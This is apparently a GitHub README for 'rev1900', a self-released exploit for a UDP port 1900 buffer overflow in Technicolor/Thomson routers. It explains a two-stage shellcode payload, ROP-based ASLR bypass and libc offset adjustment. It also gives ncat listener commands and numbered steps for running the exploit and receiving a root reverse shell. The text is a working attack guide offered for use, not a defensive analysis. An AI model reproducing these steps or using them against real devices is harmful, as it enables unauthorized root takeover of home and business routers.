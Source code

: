 ## Welcome to rev1900 R&D


Intro : 

first things first , since this dump started somewhat with a bunch of mysteriously files , let me explain what this is : 

this will give a root shell ( connect back  mode ) on, I think,  all ... technicolor / thomson  routers that are running 2.6  / 2.4 kernels , it goes a long way...  from aprox 2009 till now 2019 , so 10 years scope , on the run.... I have used it  on tg787 tg784 tg789 , more recently tg 789vacv2  and others  ... I am releasing this because this was getting dust on the hard drives, and maybe someone will be interested in enhacing the funcionality and give some life to it, it is pretty raw now, has hardocded ips ports offsets  and waht not... . 

it was quite a challenge back them to develop this ... the crossed compiled tools without reference toolchain,  the  live endless debugging  sessions , the crashes  step ins. memory access ,   it was slow  process but a frutuosos one for me,  with persistence and a lot os patience  it came out pretty reliable. 
A one man show! and a lonely ride indeed , good times. 

may it serve you on your  quest and shed some light on your own path.

Tut :  

this is a multi stage shellcode  exploit that takes advantage from a udp 1900 service buffer overrun.

due to buffer size constraints, exploitation cannot be done in one shot , so it had to be split in a 2 stage payload : 


    stage one -> generated by genex.py  ( connect back port 444 ip 10.0.0.1 and download stage two to memory )
    stage two -> generated by genex2.py  ( connect back port 4444 ip 10.0.1 and redirect shell fds to listner , you all have a shell withou prompt when this reaches here)
    ( @toDo : rename these files for something more understandable  and add command line arguments ( connect back ip , port , etc ... ) )

    these have hardcoded ip addresses and ports ( 10.0.0.1 and ports 444 , 4444 ) 
    cat listener.sh 
    
        ncat -vv -l 444 --keep-open -c 'cat exit' & 
        ncat -v -l 444 --keep-open

this is a already working exploit , unfortunally it has that hardcoded stuff , some more thinking has to be made because , generating null free shellcode for connect back ip 10.0.0.1 takes different size than for example 192.168.1.1 , and size is a constraint here.

one final remark , this one uses some rop gadgets to bypass aslr , and libc location changes between models and firmware versions.  if a close look is taken on ex extg789vacv2.py , you will see the comments after the registers overwrites. are the relative offsets regarding /lib/libc.so.0 location ... so how to get that reference base address from libc , i did not check if this information was dumped to telnet console , it might , but with serial console if you launch the reference crash test udp.py it will print crash dump report with libc address , next you will have to adapt exploiy.py , better look at extg789vacv2.py as it has the offset math comment already , would like to automate this also .... 

so ... what has to be done : 

 1>  run udp.py , and grab the offset of libc from serial console . 
 2>  adapt ext789vacv2.py  ( ra , s0 , s4 , s2  registers )  ( libc: 0x2ae50000  , ra = hex(0x2ae50000+0x60330) , and so on .... )
 3>  (listner.sh) ncat -vv -l 444 --keep-open -c 'cat exit' &  ncat -v -l 444 --keep-open 
 4>  adjust UDP_IP = "10.0.0.138" on ext789vacv2.py and make sure you are in 10.0.0.1 ( all of them listen on 10.0.0.138 , so this should not be a problem )   and sock.setsockopt(socket.SOL_SOCKET, 25, 'eth1') <---- eth1 interface ( choose yours , not relevant to shellcode payloads ... ) 
 5> run python ext789vacv2.py
 6> you should see some activity on the first ncat ( this is good ) 
 7> you should see some activity on the second ncat , at this point you have a reverse shell on this console, just type ls and the look for youtself
 8> the rest is up to you . 


 be wise , be responsible. 

 Cheers 
 keep on rolling :) 

 





